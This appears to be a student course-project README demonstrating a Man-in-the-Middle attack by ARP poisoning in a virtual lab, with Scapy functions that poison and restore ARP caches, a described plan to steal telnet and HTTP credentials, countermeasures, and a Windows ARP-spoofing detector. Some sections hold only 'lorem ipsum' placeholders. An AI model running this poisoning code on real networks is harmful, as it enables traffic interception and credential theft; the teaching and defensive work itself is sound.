

# Language-based Security

## Project - Man In The Middle Attack

### Introduction

To end this language-based security course, we were asked to choose a topic, and provide fine analysis about it. We decided
to talk about a well-known vulnerability, Man In The Middle (MITM). There is a lot of different ways to accomplish this attack, we will cover one of the most 
famous, which is called ARP poisoning.
The following report will be organised as follows:
- The goal of this project, i.e what is our objective
- How to perform this type of attack, using Python script language
- How you can prevent it, also by using Python
- A discussion

### Goal of the project

The goal of the project is to demonstrate the vulnerability (insecure communications) of the 
HTTP and telnet protocols and why it is important to use their secure versions SSH and HTTPS. 
To do that, we will create a sniffing / spoofing python script from scratch. In the case of telnet, we will analyse the telnet TCP connection packets 
sent from the target to another remote machine to get the credentials. We will then send a crafted 
RST TCP connection packet (by spoofing the IP of the remote machine) to the target, in order to break 
up the telnet connection, before logging into the remote machine ourselves. In the case of HTTP, we 
will analyse the HTTP packets, containing credentials, sent from the target to a test website and 
send a spoofed 404 http error packet to the target before logging into his account.

It is a project written in python language that demonstrates application layer protocols’ 
vulnerabilities. Also, we will first take the point of view of an attacker by creating and 
executing the script and then switch to a defender’s point of view by discussing the possible 
countermeasures as we did in the labs.

### The Attack

#### Initial Configuration

In order to demonstrate how an attacker inside a private network could retrieve important 
information, we used three virtual machines (VirtualBox) to simulate connections between client 
and server inside a company, for example. We will have a machine running Ubuntu 16.04 as a client, 
and another machine running Ubuntu 16.04 as a server.


Client IP is 192.168.0.42/24.


Client IP is 192.168.0.43/24.


The attacker is also connected to the network, and uses Kali Linux 
to perform the attack. Its IP address is 192.168.0.44/24.


#### Language and libraries

- Python, which is an interpreted, high-level, general-purpose programming language.
 Created by Guido van Rossum and first released in 1991, Python's design philosophy emphasizes code readability with its notable use of
 significant whitespace. It will suits very well to demonstrate things like this since
it allows performing powerful actions using few lines, which makes our programs more readable, in a short amount of time.
- Scapy : Scapy is a powerful Python-based interactive packet manipulation program and library. It is able to forge or decode packets of a 
wide number of protocols, send them on the wire, capture them, 
store or read them using pcap files, match requests and replies, and much more. It is designed to allow 
fast packet prototyping by using default values that work. We will use this to efficiently craft malicious packets on our network to demonstrate the vulnerability.

#### Telnet connection

Our use case will be a telnet connection between client and server 
computer. Telnet is not recommended, it's considered as an unsecured 
protocol since it's based on unencrypted messages.
To connect remotely using telnet, just use the command `$telnet <ip>`.
In our case to connect to the remote server, we use `$telnet 192.168.0.43`.

We are then prompted to enter login and password


#### ARP Spoofing

Some useful functions in the program :

```python
def get_mac(IP, interface="eth0"):
    conf.verb = 0
    ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=IP), timeout=2, iface=interface, inter=0.1)
    for snd, rcv in ans:
        return rcv.sprintf(r"%Ether.src%")
``` 

```python
def poison_arp(target1_mac, target2_mac):
    send(ARP(op=2, pdst=target1_ip, psrc=target2_ip, hwdst=target1_mac))
    send(ARP(op=2, pdst=target2_ip, psrc=target1_ip, hwdst=target2_mac))
``` 

```python
def undo_arp():
    print("\n[*] Restoring Targets...")
    target1_mac = get_mac(target1_ip)
    target2_mac = get_mac(target2_ip)
    send(ARP(op=2, pdst=target2_ip, psrc=target1_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=target1_mac), count=7)
    send(ARP(op=2, pdst=target1_ip, psrc=target2_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=target2_mac), count=7)
    print("[*] Disabling IP Forwarding...")
    os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
    print("[*] Shutting Down...")
    sys.exit(1)
```

We can see that both client and server have their arp cache changed when our python script is running.

One the client we pretend that 192.168.0.43 has the MAC address 08:00:27:d1:98:f9.



One the server we pretend that 192.168.0.42 has the MAC address 08:00:27:d1:98:f9.


#### Sniffing Packet


Note that this action can be done using Wireshark, but information retrieving might be more general, thus it could take more time to find login and password since this software display a lot of information.


#### Information Retrieving

lorem ipsum
dolor sit amet

### Countermeasures

1. Network Configuration
    
    - Use static ARP tables. If you're located in a private network that belongs to you, you can set 
    it up si you cannot modify ARP tables. It will ensure that receiving wrong packets will not allow an attacker to 
    spoof you IP address to perform such an attack.
    - Avoid public networks. These attacks are even easier to do when their is a lot of traffic on the private network,
    since it might allow to capture a huge amount of data, and thus has a higher probability to obtain useful packets that
    could allow gaining important information. 

2. Client & Server Configuration

    - Don't use unencrypted channels to communicate over a network. Using secured protocols like SSH over Telnet,
    and HTTPS over HTTP highly reduces the chances of this type of attack to bring useful information to the attacker.
    
3. Security Prevention

    - Only uses what you know, and be careful of what you're doing on the net. A lot of big companies 
    (Facebook, AirBnb, ...) have well done and secured app, it's now very difficult to gain access or information using these platform.
     Untrusted platform might be more vulnerable to these type of attacks, since they have a less important budget allocated on security. 
    - Since data becomes more and more difficult to steal every day, a lot of attacks are now based on phishing, i.e pretending that you're the provider of a service and 
    thus gaining information directly from the victim, without any suspicion from him.
    
4. Detection-based program

    - Since this type of attack is quite stealthy, since it doesn't affect our system in a significant way, excepted by changing our ARP cache (which is usually not bind to any form of security),
    we can still create a live analysis to detect when ARP cache becomes suspect, and so alert the user, log the intrusion into a file, send a mail, or even cancel the ARP modification. Since Windows is the most-used OS used for client side, we decided to 
    make a defense system for this platform in particular, as a proof of concept.
    
```python

import os
import re
import time

from pip._vendor.distlib.compat import raw_input


def check_arp_integrity(list):
    if len(list) == len(set(list)):
        return False
    else:
        return True


def anti_spoofing(iface="192.168.0.37"):
    print("Running anti-spoofing program on interface {}".format(iface))
    while 1:
        try:
            mac_add = []
            with os.popen('arp -a -N {}'.format(iface)) as f:
                data = f.read()

            for line in re.findall('([-.0-9]+)\s+([-0-9a-f]{17})\s+(\w+)', data):
                mac = line[1]
                if mac != "ff-ff-ff-ff-ff-ff":
                    mac_add.append(line[1])
            arp_checking = check_arp_integrity(mac_add)
            if arp_checking:
                print("ALERT !!")
                break
            time.sleep(1.5)

        except KeyboardInterrupt:
            print("Stopping program..")
            break


def run_antispoof():
    ip = raw_input("[*] Enter IP [192.168.0.37]: ")
    if ip == "":
        ip = "192.168.0.37"
    anti_spoofing(ip)
```
Thus, when an attacker tries to harm our ARM system, we immediately receive an alert:


### Discussion

lorem ipsum
dolor sit amet

### Conclusion

Nowadays security on internet becomes very important, we saw that even in a small an quite restricted network it is still possible to leak important information, with few resources.
This can become highly critical when it comes to important structures like hospitals, data center of bank companies, etc. Secured protocol still exists to counter these attacks, but users can still 
can tricked with phishing attacks, and if attackers are determined and have enough resources they can also brute force leaked data to extract your useful information. 

### Sources

1. [How To Do Man In The Middle Attack(MITM) with ARP Spoofing Using Python and Scapy](https://medium.com/@ravisinghmnnit12/how-to-do-man-in-the-middle-attack-mitm-with-arp-spoofing-using-python-and-scapy-441ee577ba1b)
2. [How to Prevent ARP Spoofing Attacks?](https://www.indusface.com/blog/protect-arp-poisoning/#Identify_the_Spoofing_Attack)
2. [Scapy Documentation](https://scapy.readthedocs.io/en/latest/)
2. [ARP poisoning/spoofing: How to detect & prevent it](https://www.comparitech.com/blog/vpn-privacy/arp-poisoning-spoofing-detect-prevent/)

### Appendix

1. [Client Virtual Machine [ login:client | password:client ]](https://drive.google.com/open?id=1jqys0pS7WHDOQ2o-dHbC_ZloOjKGRBb-)
2. [Server Virtual Machine [ login:server | password : server ]](https://drive.google.com/open?id=1yCcbmsN0bCVQOsF0VYAkSZGiv8p4rXXd)

